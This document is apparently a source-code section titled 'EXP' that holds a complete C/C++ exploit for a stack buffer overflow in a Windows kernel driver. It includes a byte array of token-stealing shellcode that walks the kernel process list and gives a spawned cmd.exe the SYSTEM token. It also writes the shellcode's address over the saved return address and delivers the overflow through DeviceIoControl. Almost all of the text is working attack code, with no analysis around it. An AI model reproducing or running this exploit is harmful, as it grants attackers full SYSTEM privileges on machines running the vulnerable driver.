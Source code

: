 ### B. EXP

```plain
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    char shellcode[256] = {
        0x50, 0x53, 0x51, 0x56, 0x57, 0x65, 0x48, 0x8b, 0x04, 0x25,
        0x88, 0x01, 0x00, 0x00, 0x48, 0x8b, 0x80, 0x20, 0x02, 0x00,
        0x00, 0x81, 0xb8, 0xe0, 0x02, 0x00, 0x00, 0x41, 0x41, 0x41,
        0x41, 0x74, 0x0f, 0x48, 0x8b, 0x80, 0xe8, 0x02, 0x00, 0x00,
        0x48, 0x2d, 0xe8, 0x02, 0x00, 0x00, 0xeb, 0xe5, 0x48, 0x89,
        0xc3, 0x83, 0xb8, 0xe0, 0x02, 0x00, 0x00, 0x04, 0x74, 0x0f,
        0x48, 0x8b, 0x80, 0xe8, 0x02, 0x00, 0x00, 0x48, 0x2d, 0xe8,
        0x02, 0x00, 0x00, 0xeb, 0xe8, 0x48, 0x8b, 0x88, 0x58, 0x03,
        0x00, 0x00, 0x48, 0x89, 0x8b, 0x58, 0x03, 0x00, 0x00, 0x5f,
        0x5e, 0x59, 0x5b, 0x58, 0x48, 0x83, 0xc4, 0x28, 0xc3, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff
    };

    DWORD oldProtect;
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    unsigned int size = 0x820;
    RtlFillMemory(stackspace, 0x810, 'A');
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)shellcode;

    DWORD info = 0;

    VirtualProtect(shellcode, 256, PAGE_EXECUTE_READWRITE, &oldProtect);
    printf("[*] Spawning a new cmd.exe process\n");
    si.cb = sizeof(STARTUPINFOA);
    if (!CreateProcessA(NULL, (LPSTR)"cmd.exe", NULL, NULL, true, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi)) {
        printf("[!] FATAL: Error spawning cmd.exe\n");
        return;
    }

    printf("[*] Updating our shellcode to search for PID %d\n", pi.dwProcessId);
    *(DWORD*)((char*)shellcode + 27) = pi.dwProcessId;

    DeviceIoControl(hDevice, ioctl,
        stackspace, size,
        NULL, 0,
        &info, NULL);
    printf("info: %d\n", info);
    std::cout << "IO Complete\n";
}
```